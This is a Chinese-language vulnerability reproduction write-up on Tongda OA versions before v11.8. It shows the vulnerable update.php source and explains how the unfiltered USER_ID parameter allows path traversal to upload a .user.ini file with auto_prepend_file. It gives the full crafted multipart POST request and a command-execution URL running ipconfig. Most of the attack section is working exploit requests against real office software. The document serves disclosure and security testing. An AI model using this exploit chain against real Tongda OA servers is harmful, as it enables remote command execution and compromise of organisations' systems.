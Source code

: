 # 通达OA v11.8 update.php 后台文件包含命令执行漏洞

## 漏洞描述

通达OA v11.8以下存在文件上传接口，可上传 .user.ini 文件包含有PHP语句的文件导致命令执行

## 漏洞影响

<a-checkbox checked>通达OA < v11.8</a-checkbox></br>

## 漏洞复现

这里使用的环境为通达 v11.6版本

出现漏洞的文件为 **webroot/general/hr/manage/staff_info/update.php**

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```

![img](../../../.vuepress/public/img/tongdaoa-30.png)

在这里参数 **$USER_ID** 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 **../../../** 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 **.user.ini** 文件来包含其他文件，这里是可以用于包含PHP语句的文件的，所以我们上传文件内容为

```plain
auto_prepend_file=ttt.log
```

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="ttt.ini"
Content-Type: text/plain

auto_prepend_file=ttt.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 **USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user** 为上传路径

这里我们简单知道了上传方式，那我们就通过 **.user.ini文件** 包含恶意文件

![img](../../../.vuepress/public/img/tongdaoa-38.png)



现在已经成功上传了恶意文件

```
 /general/reportshop/workshop/report/attachment-remark/form.inc.php?ttt=ipconfig 
```





![img](../../../.vuepress/public/img/tongdaoa-39.png)



<a-checkbox checked>在 v11.6中 上传的位置并没有限定所以可以上传在方便访问的目录(不需要登录)</a-checkbox></br>

<a-checkbox checked>而 v11.8中则有目录名的限制需要目录带有 webroot 和 attachment</a-checkbox></br>



![img](../../../.vuepress/public/img/tongdaoa-35.png)



![img](../../../.vuepress/public/img/tongdaoa-34.png)